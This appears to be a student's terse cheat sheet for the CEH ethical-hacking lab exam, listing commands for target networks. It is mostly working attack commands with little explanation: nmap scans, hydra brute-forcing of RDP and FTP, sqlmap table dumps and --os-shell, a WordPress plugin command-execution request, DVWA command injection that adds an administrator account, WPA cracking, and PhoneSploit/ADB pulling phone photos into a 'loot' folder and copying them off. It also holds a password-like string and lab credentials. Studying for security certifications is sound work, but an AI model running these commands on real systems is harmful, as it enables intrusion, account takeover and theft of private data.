 # CEH

zta8REQ3cpc!weu6tjk

Stealth - nmap -sS -v [Target IP Address]
Xmas - nmap -sX -v [Target IP Address]
Maimon - nmap -sM -v [Target IP Address]
ACK - nmap -sA -v [Target IP Address]     (no response filtered = firewall)
UDP - nmap -sU -v [Target IP Address]
NULL - nmap -sN -T4 -A -v [Target IP Address]

mysql
nmap -p 3306 10.10.1.0/24
nmap -sV -p 0-65535 10.10.1.19   = service versions


Product Version/FQDN/DNS CN
nmap -p 389 10.10.1.0/24
nmap -A 10.10.1.22

Android
python3 -m pip install colorama
python3 phonesploitpro.py
nmap -p 5555 10.10.1.0/24
Phonesploit 10.10.1.14
Get shell
Navigate /sdcard/Downloads
ls
pull /sdcard/Downloads
open image file

RDP (remmina)
nmap -p 3389 10.10.1.0/24
Remote Desktop Connection
Windows Explorer Search

Cryptoforge
HashCalc

snow
cyberchef base64 encode  
open cmd in snow folder
snow -C -m "base64 encoded output" -p "password" restricted.txt restricted2.txt
snow -C -p "password" restricted2.txt
cyberchef base64 decode

log4j-shell-poc
nmap -p 22 10.10.1.0/24
ssh ubuntu@10.10.1.9
toor
find log4j-shell-poc folder
cat requirements.txt

OpenVAS
docker run -d -p 443:443 –-name openvas mikesplain/openvas
127.0.0.1

WordPress
https://wpscan.com/  (hackscuseme@proton.me - Phan)
wpscan --url http://10.10.1.22:8080/CEH --api-token [API Token 
curl -i 'http://10.10.1.22:8080/CEH/wp-admin/admin-ajax.php?action=upg_datatable&field=field:exec:whoami:NULL:NULL' 
nt authority\ \system

RDP (remmina)
nmap -p  21, 139, 3389 10.10.1.0/24
hydra -L Usernames.txt -P Passwords.txt 10.10.1.11 rdp
RDP 10.10.1.11
Search for CEH-Tools

Map Windows drive in ParrotOS
smbclient \\\\10.10.1.11\\CEH-Tools -U username

IPV4 packet counts
Wireshark -> Statistics -> Conversations -> IPv4 -> Sort by Packets

aircrack-ng -w password.txt W!F!_Pcap.cap


SQLmap
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step#8]" --dbs 


DVWA
Login to http://10.10.1.22:8080/DVWA
admin / password
Set Security to low
| dir directory
| type file name

Linux privilege escalation
nmap -p 22 10.10.1.0/24
ssh ubuntu@10.10.1.9
toor
cd /
cat

ELF & DIE
Detect It Easy
load file
Hash button
PT_LOAD(0)


SQL Injection
Parrot Firefox login to website
Developer tools copy cookie
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value]" --dbs
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value]" -D moviescope --tables
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value ]" -D moviescope -T User_Login --dump
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value ]" -D moviescope -T User_Login --os-shell


https://crackstation.net

https://gchq.github.io/CyberChef/

nmap.org/download.html

Capture Machine
Bevywise_MQTTRoute_Win_64.exe

Generator Machine
C:\Bevywise\IotSimulator\bin directory and double-click on the runsimulator.bat
URL http://127.0.0.1:9000/setnetwork?network=HEALTH_CARE
Create New Network popup appears. Type any name (here, CEH_FINANCE_NETWORK)
Set the Broker IP Address as 10.10.1.19 (the IP address of the Windows Server 2019 )
Create New Device
Subscribe for command - TS1 popup opens. Select On start under the Subscribe on tab, type High_Tempe under the Topic
tab, and select 1 Atleast once below the Qos option. Click on Save.
switch back - start wireshark
switch back - type http://localhost:8080
send high temp message


hostname -I

Domain Controller 389
Windows web dev env 3306
RDP RAT 3389
Android ADB 5555

sqlmap -u "http://www.moviescope.com" --crawl=2 --dump-format=CSV --dump

sqlmap -u "http://www.moviescope.com" --crawl=2
# accept defaults

ls ~/.local/share/sqlmap/output/www.moviescope.com/
cat ~/.local/share/sqlmap/output/www.moviescope.com/*.csv

nmap -p 20,21,22,139,445,3389 <target>

get remote_file local_file
mget -R remotefolder/*
wget -m ftp://user:pass@host/remotefolder/

On ParrotOS, lftp is installed or available via apt install lftp. It supports recursive downloads:

lftp ftp://user:pass@victim-ip
mirror /etc configs_backup

aircrack-ng handshake.cap -w rockyou.txt
aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt
'/home/attacker/Desktop/Sample Captures/WPA2crack-01.cap'

# ADB equivalent:
adb -s 192.168.1.50:5555 pull /sdcard/DCIM/Camera ./loot/192.168.1.50/Camera

On Windows 11, enable OpenSSH Server (Settings → Optional Features → Add a feature)

scp -r ./loot/192.168.1.50/Camera YourWinUser@192.168.1.20:/Users/YourWinUser/Desktop/loot/

sudo apt install -y cifs-utils
sudo mkdir -p /mnt/winshare
sudo mount -t cifs //192.168.1.20/dropbox /mnt/winshare -o username=YourWinUser,domain=WORKGROUP
cp -r ./loot/192.168.1.50/Camera /mnt/winshare/
sudo umount /mnt/winshare

cd ./loot/192.168.1.50
python3 -m http.server 8000
On Windows, open a browser to http://<ParrotOS-IP>:8000/ and download the folder/files.

hydra -L /home/attacker/Desktop/Wordlists/Usernames.txt -P /home/attacker/Desktop/Wordlists/Passwords.txt ftp://[IP Address of Windows 11]. 

hydra -l Administrator -P passwords.txt rdp://10.10.1.11 -t 4 -f -V

docker run -d -p 443:443 –-name openvas mikesplain/openvas command to launch OpenVAS.


Now, the data (“My Swiss bank account number is 45656684512263”) is hidden inside the readme2.txt file with the contents
of readme.txt.
9. The file readme2.txt has become a combination of readme.txt + My Swiss bank account number is 45656684512263.
10. Now, type snow -C -p "magic" readme2.txt. It will show the content of readme.txt (the password is magic, which was entered
while hiding the data in Step 7).

type https://stegonline.georgeom.net/upload

type http://10.10.1.22:8080/dvwa/login.php and press Enter
3. The DVWA login page appears; type the Username and Password as gordonb and abc123.

| dir c:\wamp64\www\DVWA\
| type c:\wamp64\www\DVWA\file.txt
| tasklist
| whoami
| Taskkill /PID [Process ID value of the desired process] /F
| net user Test /Add
| net user
| net localgroup Administrators Test /Add

VeraCrypt
Create Volume
Create an encrypted file container radio-button is selected and click Next to proceed.
Defaults
Volume Location wizard, click Select File....
Specify Path and File Name window appears; navigate to the desired location (here, Desktop), provide the File name as MyVolume, and click Save.
After saving the file, the location of a file containing the VeraCrypt volume appears under the Volume Location field; then, click Next.
In the Encryption Options wizard, keep the default settings and click Next.
In the Volume Size wizard, ensure that the MB radio-button is selected and specify the size of the VeraCrypt container as 5; then, click Next.
The Volume Password wizard appears; provide a strong password in the Password field, retype in the Confirm field, and click Next. The password provided in this lab is qwerty@123.
A VeraCrypt Volume Creation Wizard warning pop-up appears; then, click Yes.
12. The Volume Format wizard appears; ensure that FAT is selected in the Filesystem option and Default is selected
in Cluster option.
13. Check the checkbox under the Random Pool, Header Key, and Master Key section.
14. Move your mouse as randomly as possible within the Volume Creation Wizard window for at least 30 seconds and click
the Format button.
After clicking Format, VeraCrypt will create a file called MyVolume in the provided folder. This file depends on the VeraCrypt
container (it will contain the encrypted VeraCrypt volume).
16. Depending on the size of the volume, volume creation may take some time.
17. Once the volume is created, a VeraCrypt Volume Creation Wizard dialog-box appears; click OK.
The VeraCrypt main window appears; select a drive (here, I:) and click Select File....
The Select a VeraCrypt Volume window appears; navigate to Desktop, click MyVolume, and click Open.
The window closes, and the VeraCrypt window appears displaying the location of selected volume under the Volume field; then, click Mount.
The Enter password dialog-box appears; type the password you specified in Step#11 into the Password field and click OK.
The password specified in this task is qwerty@123.
After the password is verified, VeraCrypt will mount the volume in I: drive, as shown in the screenshot
MyVolume has successfully mounted the container as a virtual disk (I:). The virtual disk is entirely encrypted (including file
names, allocation tables, free space, etc.) and behaves similarly to a real disk. You can copy or move files to this virtual disk to encrypt them.
25. Create a text file on Desktop and name it Test. Open the text file and insert text.
26. Click File in the menu bar and click Save.






